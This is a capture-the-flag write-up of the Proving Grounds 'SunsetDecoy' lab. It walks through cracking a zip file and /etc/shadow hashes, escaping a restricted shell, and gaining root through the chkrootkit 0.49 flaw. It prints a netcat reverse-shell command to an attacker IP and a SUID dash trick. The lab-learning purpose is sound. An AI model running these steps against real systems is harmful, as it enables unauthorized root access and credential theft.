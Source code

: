 ```yaml
---
title: "Proving grounds Play: SunsetDecoy"
layout: post
date: 2023-10-01 02:00
categories: writeup
---
```


Proving grounds Play - SunsetDecoy CTF writeup.

## Nmap

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a9b53e3be374e4ffb6d59ff181e7a44f (RSA)
|   256 cef3b3e70e90e264ac8d870f1588aa5f (ECDSA)
|_  256 66a98091f3d84b0a69b000229f3c4c5a (ED25519)
80/tcp open  http    Apache httpd 2.4.38
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.38 (Debian)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.0K  2020-07-07 16:36  save.zip
|_
|_http-title: Index of /
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80/tcp - open  http - Apache httpd 2.4.38

![img](/assets/images/CTF/Proving_Grounds/SunsetDecoy/web.png)

Download the zip file http://192.168.240.85/save.zip.

Extract the zip file using `unzip`, unfortunately it is password protected.

## Crack the password

Crack the password of the zip file using `fcrackzip` tool.

```sh
naveenj@hackerspace:|22:50|~/pg-play/SunsetDecoy/files/fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt save.zip

PASSWORD FOUND!!!!: pw == manuel
```

Extract and list the extracted files.

```sh
-rw-r--r-- 1 naveenj naveenj 2018 Sep 30 22:52 crackme
-rw-r--r-- 1 naveenj naveenj  829 Jun 27  2020 group
-rw-r--r-- 1 naveenj naveenj   33 Jun 27  2020 hostname
-rw-r--r-- 1 naveenj naveenj  185 Jun 27  2020 hosts
-rw-r--r-- 1 naveenj naveenj 1807 Jun 27  2020 passwd
-rw-r----- 1 naveenj naveenj 1111 Jul  7  2020 shadow
-r--r----- 1 naveenj naveenj  669 Feb  2  2020 sudoers
```

Using `unshadow` to make it crackable for john.

```sh
naveenj@hackerspace:|22:52|~/pg-play/SunsetDecoy/files/etc$ unshadow passwd shadow > crackme
naveenj@hackerspace:|22:52|~/pg-play/SunsetDecoy/files/etc$ ls
crackme  group  hostname  hosts  passwd  shadow  sudoers
```

### Crack password using john

```sh
naveenj@hackerspace:|22:52|~/pg-play/SunsetDecoy/files/etc$ john crackme --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
server           (296640a3b825115a47b68fc44501c828) 
```

SSH to the attacking machine using cracked credentials. Use the command `-t "bash --noprofile"` to escape the restricted bash.

```sh
naveenj@hackerspace:|23:39|~/pg-play/SunsetDecoy/files/etc$ ssh 296640a3b825115a47b68fc44501c828@192.168.240.85 -t "bash --noprofile"
296640a3b825115a47b68fc44501c828@192.168.240.85's password: 
bash: dircolors: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$
```

## Privilege Escalation

List the files in the attacking machine, the file `honeypot.decoy` is compiled and executable.

```sh
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ls -al
total 60
drwxr-xr-x 2 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828  4096 Sep 30 23:15 .
drwxr-xr-x 3 root                             root                              4096 Jun 27  2020 ..
lrwxrwxrwx 1 root                             root                                 9 Jul  7  2020 .bash_history -> /dev/null
-rw-r--r-- 1 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828   220 Jun 27  2020 .bash_logout
-rw-r--r-- 1 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828  3583 Jun 27  2020 .bashrc
-rwxr-xr-x 1 root                             root                             17480 Jul  7  2020 honeypot.decoy
-rw------- 1 root                             root                              1855 Jul  7  2020 honeypot.decoy.cpp
lrwxrwxrwx 1 root                             root                                 7 Jun 27  2020 id -> /bin/id
lrwxrwxrwx 1 root                             root                                13 Jun 27  2020 ifconfig -> /bin/ifconfig
-rw-r--r-- 1 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828    33 Sep 30 22:49 local.txt
lrwxrwxrwx 1 root                             root                                 7 Jun 27  2020 ls -> /bin/ls
lrwxrwxrwx 1 root                             root                                10 Jun 27  2020 mkdir -> /bin/mkdir
-rwxr-xr-x 1 root                             root                               807 Jun 27  2020 .profile
-rw-r--r-- 1 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828    66 Jun 27  2020 .selected_editor
-rwxrwxrwx 1 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828    32 Aug 27  2020 user.txt
-rw-r--r-- 1 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828   165 Sep 30 23:17 .wget-hsts
```

Execute the file with the option 5.

```sh
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ./honeypot.decoy 
--------------------------------------------------

Welcome to the Honey Pot administration manager (HPAM). Please select an option.
1 Date.
2 Calendar.
3 Shutdown.
4 Reboot.
5 Launch an AV Scan.
6 Check /etc/passwd.
7 Leave a note.
8 Check all services status.

Option selected:5

The AV Scan will be launched in a minute or less.
--------------------------------------------------
```

The scan will be launched, and in order to know what is running we need to monitor the system process. Download [pspy](https://github.com/DominicBreuker/pspy) into the attacking machine and run it.

```sh
2023/09/30 23:46:05 CMD: UID=0     PID=16936  | /bin/sh /root/chkrootkit-0.49/chkrootkit 
2023/09/30 23:46:05 CMD: UID=0     PID=16935  | /bin/bash /root/script.sh 
2023/09/30 23:46:05 CMD: UID=0     PID=16933  | /bin/sh -c /bin/bash /root/script.sh
2023/09/30 23:46:11 CMD: UID=1000  PID=834    | ./honeypot.decoy 
2023/09/30 23:46:11 CMD: UID=1000  PID=835    | sh -c /usr/bin/touch /dev/shm/STTY5246 
2023/09/30 23:47:01 CMD: UID=0     PID=837    | /usr/sbin/CRON -f 
2023/09/30 23:47:01 CMD: UID=0     PID=838    | /usr/sbin/CRON -f 
2023/09/30 23:47:01 CMD: UID=0     PID=839    | /bin/sh -c /bin/bash /root/script.sh 
2023/09/30 23:47:01 CMD: UID=0     PID=840    | /bin/bash /root/script.sh 
2023/09/30 23:47:01 CMD: UID=0     PID=843    | /bin/sh /root/chkrootkit-0.49/chkrootkit  
```

The process `chkrootkit-0.49` has been running as root, there is a local privilege escalation exploit exists in the exploitDB [Chkrootkit 0.49 - Local Privilege Escalation](https://www.exploit-db.com/exploits/33899).

Create a reverse shell using netcat and save it as `update` in the `/tmp` directory and make it executable `chmod +x update`.

```sh
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ cat update
/usr/bin/nc 192.168.45.225 4444 -e /bin/sh
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ 
```

Once the chkrootkit runs the exploit file `update` we will get the root shell.

```sh
naveenj@hackerspace:|23:29|~/pg-play/SunsetDecoy$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.225] from (UNKNOWN) [192.168.240.85] 57632
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
```

**Root Obtained**

An alternative way to obtain root without using netcat is as follows:

Create a file named `update` in the `/tmp` directory and the contents should be as below.

```sh
#!/bin/bash

sudo cp /usr/bin/dash /tmp/dash; chmod u+s /tmp/dash;
```

Now run the `honeypot.decoy` binary and wait for few seconds.

List the file in the `/tmp` folder and list it's permissions.

```sh
drwxr-xr-x 18 root  root     4096 Jul 12  2020 ..
-rwsr-xr-x  1 root  root     121464 Sep 30 23:54 dash
```

Now run the binary `dash` as follows to obtain root.

```sh
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ ./dash -p
# whoami
root
# id
uid=1000(296640a3b825115a47b68fc44501c828) gid=1000(296640a3b825115a47b68fc44501c828) euid=0(root) groups=1000(296640a3b825115a47b68fc44501c828)
# 
```

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).